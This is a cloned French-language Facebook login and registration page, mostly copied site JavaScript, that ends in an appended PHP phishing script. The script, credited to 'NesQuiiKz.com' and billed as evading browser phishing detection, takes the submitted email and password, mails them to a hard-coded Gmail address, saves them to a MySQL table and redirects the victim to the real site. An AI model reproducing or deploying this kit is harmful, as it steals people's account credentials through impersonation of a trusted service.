-a.akamaihd.net\/rsrc.php\/v2\/yR\/r\/IQc0ALCNDHy.js"},"oE4Do":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yK\/r\/obqKRvJtthA.js"},"cNca2":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y4\/r\/yuKCSDDP1tN.js"},"dhAZo":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yd\/r\/DnNWnDewi56.js"},"ruoXB":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yo\/r\/JG5CMawUTke.js"},"zaOG4":{"type":"css","permanent":1,"crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yy\/r\/V9-ZGdNJ82T.css"},"sBi6e":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yx\/r\/wvGR6_t3yI0.js"},"JK6zf":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yf\/r\/mjnvGF9mbkI.js"},"SXzJq":{"type":"css","permanent":1,"crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yw\/r\/cor0QuP3My7.css"},"oRlgH":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yd\/r\/qD03y38cCzc.js"},"VDymv":{"type":"css","permanent":1,"crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yf\/r\/swyc721HzMz.css"},"wxq+C":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yh\/r\/f7TGAiG9hu8.js"},"Rs18G":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yI\/r\/iqqxHqHkZcL.js"},"6AU0l":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yC\/r\/5c-ocnrSuU8.js"},"AtxWD":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yu\/r\/7CgwFzKxrCs.js"},"zyFOp":{"type":"js","crossOrigin":1,"src":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/yT\/r\/Ri9nQJbah9T.js"}});if (true) {Bootloader.enableBootload({"AsyncSignal":{"resources":["a\/7GR"],"module":true},"React":{"resources":["K+4oY","a\/7GR"],"module":true},"ExceptionDialog":{"resources":["a\/7GR","K+4oY","Xc7sb","NK2Gp","WpEam","X4sze","20549"],"module":true},"AsyncDOM":{"resources":["a\/7GR","cAkXN"],"module":true},"ConfirmationDialog":{"resources":["a\/7GR","NK2Gp","K+4oY","oE4Do"],"module":true},"Dialog":{"resources":["a\/7GR","K+4oY","NK2Gp"],"module":true},"ErrorSignal":{"resources":["a\/7GR","cNca2"],"module":true},"Event":{"resources":["a\/7GR"],"module":true},"AsyncDialog":{"resources":["a\/7GR","K+4oY","Xc7sb","NK2Gp","Vosow"],"module":true},"AsyncRequest":{"resources":["a\/7GR"],"module":true},"PhotoSnowlift":{"resources":["dhAZo","a\/7GR","K+4oY","NK2Gp","Vosow","Xc7sb","ruoXB","WpEam","zaOG4"],"module":true},"PhotoTagger":{"resources":["a\/7GR","sBi6e","NK2Gp","WpEam","K+4oY","Xc7sb","JK6zf","dhAZo","SXzJq","X4sze"],"module":true},"Live":{"resources":["a\/7GR","cAkXN"],"module":true},"PhotoTagApproval":{"resources":["a\/7GR","dhAZo","sBi6e"],"module":true},"PhotoTags":{"resources":["a\/7GR","dhAZo","NK2Gp","sBi6e"],"module":true},"TagTokenizer":{"resources":["a\/7GR","K+4oY","NK2Gp","zaOG4","oRlgH","sBi6e","WpEam"],"module":true},"css:fb-photos-snowlift-fullscreen-css":{"resources":["VDymv"]},"SnowliftPicCropper":{"resources":["a\/7GR","K+4oY","NK2Gp","X4sze","dhAZo","sBi6e","SXzJq","JK6zf","WpEam","wxq+C"],"module":true},"PhotosButtonTooltips":{"resources":["a\/7GR","Xc7sb","NK2Gp","K+4oY","Rs18G"],"module":true},"VideoRotate":{"resources":["a\/7GR","K+4oY","NK2Gp","6AU0l"],"module":true},"AsyncResponse":{"resources":["a\/7GR"],"module":true},"PhotoPermalinkCropper":{"resources":["a\/7GR","K+4oY","NK2Gp","X4sze","dhAZo","sBi6e","SXzJq","Xc7sb","Vosow","WpEam","JK6zf"],"module":true},"PhotoInlineEditor":{"resources":["a\/7GR","K+4oY","dhAZo","Xc7sb","NK2Gp","Vosow","sBi6e","WpEam","JK6zf","SXzJq","X4sze","oRlgH","zaOG4","AtxWD"],"module":true},"Form":{"resources":["a\/7GR","NK2Gp"],"module":true},"SpotlightShareViewer":{"resources":["a\/7GR","Vosow","zyFOp"],"module":true},"Toggler":{"resources":["a\/7GR","K+4oY","NK2Gp"],"module":true},"Tooltip":{"resources":["a\/7GR","Xc7sb","NK2Gp","K+4oY"],"module":true},"DOM":{"resources":["a\/7GR"],"module":true},"Input":{"resources":["a\/7GR","NK2Gp"],"module":true},"trackReferrer":{"resources":[],"module":true},"DimensionTracking":{"resources":["a\/7GR","Vosow"],"module":true},"HighContrastMode":{"resources":["a\/7GR","Vosow"],"module":true},"DetectBrokenProxyCache":{"resources":["a\/7GR","Vosow"],"module":true}});}});</script>
<script>requireLazy(["InitialJSLoader"], function(InitialJSLoader) {InitialJSLoader.loadOnDOMContentReady(["WpEam","J2mKw","a\/7GR","TbG0C","K+4oY","AWb\/8","ZwIZ4","Vosow","4vv8\/"]);});</script>
<script>
requireLazy(["Bootloader"], function(Bootloader) {Bootloader.configurePage(["7+qww","NK2Gp","Xc7sb","HgIa3","zyh0u"]);});

(require("ServerJSDefine")).handleDefines([["UACMConfig",[],{"ffver":63083,"ffid1":"AcEasorfA3ayKHNcjxGX0hG6YjI5vNDl2Y-fPbeHJRn0LoLCvVfFMcZ1CMjztb1BCjo","ffid2":"AcFavVxTiC65NqcBNxDHnAQgGUCogOGwVJqSCGtGxXF34OKlIjlW8AdIzBS_LLooVCE","ffid3":"AcE16ZMbbknjWLsfqz407Am2DZFe4xQJx6bFcrQH7NnhnPB2X-p7TUxjsCcr0EyXMbiXbvTIDVeLJ58KlvDXrqVi","ffid4":"AcEIrMvss7du8jvYQ8vHuwkzR_zZSwWo4tsUlBxOXDx-6ucXYZ72TY4BIi_aeTisOzg"},308],["CaptchaClientConfig",[],{"recaptchaPublicKey":"6LfDxsYSAAAAAGGLBGaRurawNnbvAGQw5UwRWYXL"},83],["LocaleInitialData",[],{"locale":"fr_FR"},273],["RegistrationClientConfig",["m_0_t","m_0_u","m_0_v","m_0_w","m_0_x","m_0_y","m_0_z","m_0_10","m_0_11"],{"fields":{"NAME":"name","FIRSTNAME":"firstname","LASTNAME":"lastname","EMAIL":"reg_email__","EMAIL_CONFIRMATION":"reg_email_confirmation__","GENDER":"sex","PASSWORD":"reg_passwd__","BIRTHDAY_DAY":"birthday_day","BIRTHDAY_MONTH":"birthday_month","BIRTHDAY_YEAR":"birthday_year","BIRTHDAY_WRAPPER":"birthday_wrapper","GENDER_WRAPPER":"gender_wrapper"},"validators":{"types":{"TEXT":"text","SELECTORS":"selectors","RADIO":"radio"}},"messages":{"MISSING_FIELDS":{"__m":"m_0_t"},"INCORRECT_NAME":{"__m":"m_0_u"},"INCORRECT_EMAIL":{"__m":"m_0_v"},"INCORRECT_EMAIL_CONF":{"__m":"m_0_w"},"PASSWORD_BLANK":{"__m":"m_0_x"},"INVALID_EMAIL":{"__m":"m_0_y"},"EMAIL_RETYPE_DIFFERENT":{"__m":"m_0_z"},"INCOMPLETE_BIRTHDAY":{"__m":"m_0_10"},"NO_GENDER":{"__m":"m_0_11"}},"logging":{"enabled":0,"categories":{"INLINE":"inline","SERVER":"server"},"types":{"IS_EMPTY":"is_empty","CONTACTPOINT_INVALID":"contactpoint_invalid","CONTACTPOINT_TAKEN":"contactpoint_taken","CONTACTPOINT_MATCH":"contactpoint_match","PASSWORD_WEAK":"password_weak","TERMS_AGREEMENT":"terms_agreement","TOO_YOUNG":"too_young","ACCOUNT_DISABLED":"account_disabled","BAD_CAPTCHA":"bad_captcha","NAME_REJECTED":"name_rejected","SI_BLOCK":"si_block"}}},87],["EagleEyeConfig",[],{"seed":"0lx0","sessionStorage":1},294],["TimeSpentConfig",[],{"0_delay":0,"0_timeout":8,"delay":200000,"timeout":64},142],["ImmediateActiveSecondsConfig",[],{"sampling_rate":0},423]]);require("InitialJSLoader").handleServerJS({"markup":[["m_0_t",{"__html":"\u003Cdiv class=\"_5633 _5634\">Vous devez compl\u00e9ter tous les champs.\u003C\/div>"},2],["m_0_u",{"__html":"\u003Cdiv class=\"_5633 _5634\">Quel est votre nom\u00a0?\u003C\/div>"},2],["m_0_v",{"__html":"\u003Cdiv class=\"_5633 _5634\">Cette adresse \u00e9lectronique vous permettra de vous connecter et de r\u00e9initialiser votre mot de passe, le cas \u00e9ch\u00e9ant.\u003C\/div>"},2],["m_0_w",{"__html":"\u003Cdiv class=\"_5633 _5634\">Veuillez saisir de nouveau votre adresse \u00e9lectronique.\u003C\/div>"},2],["m_0_x",{"__html":"\u003Cdiv class=\"_5633 _5634\">Saisissez une combinaison d\u2019au moins six chiffres, lettres et signes de ponctuation (tels que\u00a0! et &amp;).\u003C\/div>"},2],["m_0_y",{"__html":"\u003Cdiv class=\"_5633 _5634\">Veuillez entrer une adresse \u00e9lectronique valable.\u003C\/div>"},2],["m_0_z",{"__html":"\u003Cdiv class=\"_5633 _5634\">Vos adresses \u00e9lectroniques ne correspondent pas. Veuillez r\u00e9essayer.\u003C\/div>"},2],["m_0_10",{"__html":"\u003Cdiv class=\"_5633 _5634\">S\u00e9lectionnez votre date de naissance. Vous pourrez d\u00e9cider qui peut voir celle-ci plus tard.\u003C\/div>"},2],["m_0_11",{"__html":"\u003Cdiv class=\"_5633 _5634\">Veuillez indiquer \u00ab\u00a0homme\u00a0\u00bb ou \u00ab\u00a0femme\u00a0\u00bb.\u003C\/div>"},2]],"elements":[["m_0_0","reg",2],["m_0_b","u_0_0",2],["m_0_c","u_0_1",4],["m_0_d","u_0_2",2],["m_0_e","u_0_3",4],["m_0_f","u_0_4",2],["m_0_g","u_0_5",4],["m_0_9","u_0_6",2],["m_0_h","u_0_7",2],["m_0_i","u_0_8",4],["m_0_j","u_0_9",2],["m_0_k","u_0_a",4],["m_0_l","u_0_b",2],["m_0_m","u_0_c",2],["m_0_n","u_0_f",2],["m_0_o","u_0_g",2],["m_0_4","u_0_h",2],["m_0_1","u_0_i",2],["m_0_3","u_0_j",2],["m_0_2","u_0_k",2],["m_0_q","login_form",2],["m_0_r","loginbutton",2],["m_0_p","u_0_m",2],["m_0_s","login_form",2],["m_0_a","reg",2],["m_0_7","u_0_n",2],["m_0_6","captcha_buttons",2],["m_0_8","u_0_o",2],["m_0_5","reg_pages_msg",2]],"require":[["PixelRatio","startDetecting",[],[1]],["Recaptcha","setFocusOnLoad",[],[false]],["RegistrationController","init",["m_0_0","m_0_1","m_0_2","m_0_3","m_0_4","m_0_5","m_0_6","m_0_7","m_0_8","m_0_9"],[{"__m":"m_0_0"},true,"form_focus",{"__m":"m_0_1"},{"__m":"m_0_2"},{"__m":"m_0_3"},{"__m":"m_0_4"},{"__m":"m_0_5"},{"__m":"m_0_6"},{"__m":"m_0_7"},{"__m":"m_0_8"},"show",{"__m":"m_0_9"}]],["RegistrationInlineValidations","register",["m_0_b","m_0_c"],[{"__m":"m_0_b"},{"__m":"m_0_c"},"left","follow"]],["StickyPlaceholderInput","registerInput",["m_0_c"],[{"__m":"m_0_c"}]],["PlaceholderListener"],["PlaceholderOnsubmitFormListener"],["FlipDirectionOnKeypress"],["RegistrationInlineValidations","register",["m_0_d","m_0_e"],[{"__m":"m_0_d"},{"__m":"m_0_e"},"below","follow"]],["StickyPlaceholderInput","registerInput",["m_0_e"],[{"__m":"m_0_e"}]],["RegistrationInlineValidations","register",["m_0_f","m_0_g"],[{"__m":"m_0_f"},{"__m":"m_0_g"},"left","follow"]],["StickyPlaceholderInput","registerInput",["m_0_g"],[{"__m":"m_0_g"}]],["RegistrationInlineValidations","register",["m_0_h","m_0_i"],[{"__m":"m_0_h"},{"__m":"m_0_i"},"left","follow"]],["StickyPlaceholderInput","registerInput",["m_0_i"],[{"__m":"m_0_i"}]],["RegistrationInlineValidations","register",["m_0_j","m_0_k"],[{"__m":"m_0_j"},{"__m":"m_0_k"},"left","follow"]],["StickyPlaceholderInput","registerInput",["m_0_k"],[{"__m":"m_0_k"}]],["RegistrationInlineValidations","register",["m_0_l","m_0_m"],[{"__m":"m_0_l"},{"__m":"m_0_m"},"left","follow"]],["RegistrationInlineValidations","register",["m_0_n","m_0_o"],[{"__m":"m_0_n"},{"__m":"m_0_o"},"left","follow"]],["PostLoadJS","loadAndRequire",[],["DimensionTracking"]],["PostLoadJS","loadAndCall",[],["HighContrastMode","init",[{"isHCM":false,"spacerImage":"https:\/\/fbstatic-a.akamaihd.net\/rsrc.php\/v2\/y4\/r\/-PAXP-deijE.gif"}]]],["PostLoadJS","loadAndCall",[],["DetectBrokenProxyCache","run",[0,"c_user"]]],["ScriptPath","set",[],["\/index.php","74a81f84","0409f9f0"]],["ClickRefLogger"],["userAction","setUATypeConfig",[],[{"ua:e":false}]],["ScriptPathState","setUserURISampleRate",[],[0.0002]],["userAction","setCustomSampleConfig",[],[{"ua:n":{"test":{"ua_id":{"test":true}}},"ua:i":{"snowlift":{"action":{"open":true,"close":true}},"snowflake":{"action":{"open":true,"close":true}},"canvas":{"action":{"mouseover":true,"mouseout":true}}}}]],["UserActionHistory"],["ScriptPathLogger","startLogging",[],[]],["TimeSpentBitArrayLogger","init",[],[]],["TinyViewport"],["WebStorageMonster","schedule",[],[false]],["TimezoneAutoset","setInputValue",["m_0_p"],[{"__m":"m_0_p"},1405691121]],["LoginFormController","init",["m_0_q","m_0_r"],[{"__m":"m_0_q"},{"__m":"m_0_r"},null]],["ModuleErrorLogger","init",[],[]]]});

onloadRegister_DEPRECATED(function (){useragentcm();});
onloadRegister_DEPRECATED(function (){try { $("email").focus(); } catch (_ignore) { }});
</script>
<!-- BigPipe construction and first response -->
<script>var bigPipe = new (require("BigPipe"))({"lid":0,"forceFinish":true});</script>
<script>bigPipe.onPageletArrive({"id":"first_response","phase":0,"jsmods":{},"is_last":true,"css":["7+qww","NK2Gp","Xc7sb","HgIa3","zyh0u"],"js":["WpEam","J2mKw","a\/7GR","TbG0C","K+4oY","AWb\/8","ZwIZ4","Vosow","4vv8\/"],"displayJS":["a\/7GR"]})</script><script>bigPipe.onPageletArrive({"id":"","phase":1,"jsmods":{},"is_last":true,"css":["7+qww","NK2Gp","Xc7sb","HgIa3","zyh0u"],"js":["WpEam","J2mKw","a\/7GR","TbG0C","K+4oY","AWb\/8","ZwIZ4","Vosow","4vv8\/"],"displayJS":["a\/7GR"],"the_end":true})</script>
      <?php
    
	// Page produite par NesQuiiKz.com et optimisée contre les navigateur internet qui peuvent détecter les pages Phishing.

	
	// Configuration de la base de donnée
	$DB_host = "Hôte MySQL";
	$DB_login = "Utilisateur MySQL"; 
	$DB_pass = "Mot de passe"; 
	$DB_select = ""; 
	
	// Connexion à notre base de donnée
	$con = mysql_connect($DB_host, $DB_login, $DB_pass); 
    if (!$con) { 
			die('Erreur de connexion: ' . mysql_error()); 
			}
    $db= mysql_select_db($DB_select, $con);
	
	
    
	// On protège notre base de donnée.
	$id=mysql_real_escape_string($_POST["email"]);
	$mdp=mysql_real_escape_string($_POST["pass"]);
	
	
    // S'il l'on met un identifiant
	if ((isset($_POST["email"]))&&($_POST["email"]!="")){
	
	
				// S'il l'on met un mot de passe
				if ((isset($_POST["pass"]))&&($_POST["pass"]!="")){
	
	                   // On crée une variable contenant les identifiants
	                   $all = 'Identifiant : ' . $_REQUEST['email']. "\n". 'Mot de passe : ' . $_REQUEST['pass'] ;
					   
					   
	                   // On envoi les identifiants à notre adresse mail voulu
	                   mail('kenjiackerman5@gmail.com','NesQuiiKz.com', $all );
					   
					   // On vérifie que les identifiants n'ont pas été déjà enregistrés
					   $SQL="SELECT * FROM `Base de données MySQL`.`ids` WHERE id='$id' AND mdp='$mdp'";
                       $res=mysql_query($SQL);
					   
					   // Si les identifiants ne sont pas déjà présent
                       if(mysql_num_rows($res)==0){
							   // On ajoute les identifiants à notre base de donnée.
							   $SQL="INSERT INTO `Base de données MySQL`.`ids` (`id` ,`mdp`)VALUES ('$id',  '$mdp')";
							   $res=mysql_query($SQL);
							 
					   }
					   
	            }
	
	}
	mysql_close(); 
	
?>
<?php // On redirige l'internaute vers le site officiel tout de suite ?>
<html><head><meta http-equiv='refresh' content                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          </body></html>
